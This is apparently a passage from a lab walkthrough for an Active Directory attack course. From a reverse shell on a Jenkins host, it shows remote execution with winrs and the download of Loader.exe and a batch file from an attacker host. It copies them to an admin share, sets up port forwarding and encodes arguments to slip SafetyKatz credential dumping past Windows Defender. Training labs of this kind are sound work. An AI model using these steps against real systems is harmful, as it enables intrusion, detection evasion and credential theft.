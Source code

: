 ## Abuse using winrs 
Let’s check if we can execute commands on dcorp-mgmt server and if the winrm port is open: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> winrs -r:dcorp-mgmt cmd /c "set computername && set username" 
COMPUTERNAME=DCORP-MGMT 
USERNAME=ciadmin 
```
We would now run SafetyKatz.exe on dcorp-mgmt to extract credentials from it. For that, we need to copy Loader.exe on dcorp-mgmt. Let's download Loader.exe on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.  

Run the following command on the reverse shell: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe 
```
Now, copy the Loader.exe to dcorp-mgmt: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe  

Does \\dcorp-mgmt\C$\Users\Public\Loader.exe specify a file name or directory name on the target (F = file, D = directory)? F 
C:\Users\Public\Loader.exe 1 File(s) copied 
```
Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
Please note that we must use the $null variable to address output redirection issues.  Note that Windows Defender on dcorp-mgmt would detect SafetKatz execution even when used with Loader. To avoid that, let’s pass encoded arguments to the Loader.  First, run the below command on the student VM to generate encoded arguments for “sekurlsa::ekeys “(not required to be run on the reverse shell): 

![image](https://github.com/user-attachments/assets/8880bffd-d0dc-42a3-838c-3e8ed1f800a8)

Include the above output and other arguments in a batch file. Below are the contents of the batch file. It is also present in the C:\AD\Tools directory of our student VM as **Safety.bat** 

![image](https://github.com/user-attachments/assets/18b98ae6-6e41-479b-be88-610674d4ca99)

Download the batch file on dcorp-ci. Run the below commands on the reverse shell: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat 
```
Now, copy the Safety.bat to dcorp-mgmt: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat 
```
![image](https://github.com/user-attachments/assets/117b1f00-3659-4a03-a809-5cf73c923546)
